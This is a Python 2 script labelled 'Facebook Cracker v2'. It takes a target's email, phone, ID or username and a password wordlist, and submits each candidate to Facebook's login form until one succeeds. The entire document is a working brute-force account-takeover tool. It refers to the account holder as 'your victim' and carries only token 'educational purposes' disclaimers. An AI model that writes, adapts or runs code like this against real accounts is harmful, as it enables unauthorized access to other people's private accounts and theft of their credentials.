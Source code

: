 #!usr/bin/python
#Facebook Cracker Version 2 can crack into Facebook Database 100% without Interruption By Facebook Firewall !
#This program is for educational purposes only.
#Don't attack people facebook accounts it's illegal !
#If you want to crack into someone's account, you must have the permission of the user.
#Mauritania Attacker is not responsible.
 
 
import sys
import random
import mechanize
import cookielib
 
 
GHT = '''
        +=======================================+
        |..........Facebook Cracker v 2.........|
        +---------------------------------------+
        |#Author: Mauritania Attacker           |
        |#Contact: www.fb.com/mauritanie.forever|
        |#Date: 02/04/2013                      |
        |#This tool is made for pentesting.     |
        |#Changing the Description of this tool |
        |Won't made you the coder ^_^ !!!       |
        |#Respect Coderz ^_^                    |
        |#I take no responsibilities for the    |
        |  use of this program !                |
        +=======================================+
        |..........Facebook Cracker v 2.........|
        +---------------------------------------+
'''
print "Note: - This tool can crack facebook account even if you don't have the email of your victim"
print "# Hit CTRL+C to quit the program"
print "# Use www.graph.facebook.com for more infos about your victim ^_^"
 
 
email = str(raw_input("# Enter |Email| |Phone number| |Profile ID number| |Username| : "))
passwordlist = str(raw_input("Enter the name of the password list file : "))
 
useragents = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]
 
 
 
login = 'https://www.facebook.com/login.php?login_attempt=1'
def attack(password):
 
  try:
     sys.stdout.write("\r[*] trying %s.. " % password)
     sys.stdout.flush()
     br.addheaders = [('User-agent', random.choice(useragents))]
     site = br.open(login)
     br.select_form(nr=0)
 
       
     ##Facebook
     br.form['email'] =email
     br.form['pass'] = password
     br.submit()
     log = br.geturl()
     if log != login:
        print "\n\n\n [*] Password found .. !!"
        print "\n [*] Password : %s\n" % (password)
        sys.exit(1)
  except KeyboardInterrupt:
        print "\n[*] Exiting program .. "
        sys.exit(1)
 
def search():
    global password
    for password in passwords:
        attack(password.replace("\n",""))
 
 
 
def check():
 
    global br
    global passwords
    try:
       br = mechanize.Browser()
       cj = cookielib.LWPCookieJar()
       br.set_handle_robots(False)
       br.set_handle_equiv(True)
       br.set_handle_referer(True)
       br.set_handle_redirect(True)
       br.set_cookiejar(cj)
       br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
    except KeyboardInterrupt:
       print "\n[*] Exiting program ..\n"
       sys.exit(1)
    try:
       list = open(passwordlist, "r")
       passwords = list.readlines()
       k = 0
       while k < len(passwords):
          passwords[k] = passwords[k].strip()
          k += 1
    except IOError:
        print "\n [*] Error: check your password list path \n"
        sys.exit(1)
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)
    try:
        print GHT
        print " [*] Account to crack : %s" % (email)
        print " [*] Loaded :" , len(passwords), "passwords"
        print " [*] Cracking, please wait ..."
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)
    try:
        search()
        attack(password)
    except KeyboardInterrupt:
        print "\n [*] Exiting program ..\n"
        sys.exit(1)
 
if __name__ == '__main__':
    check()
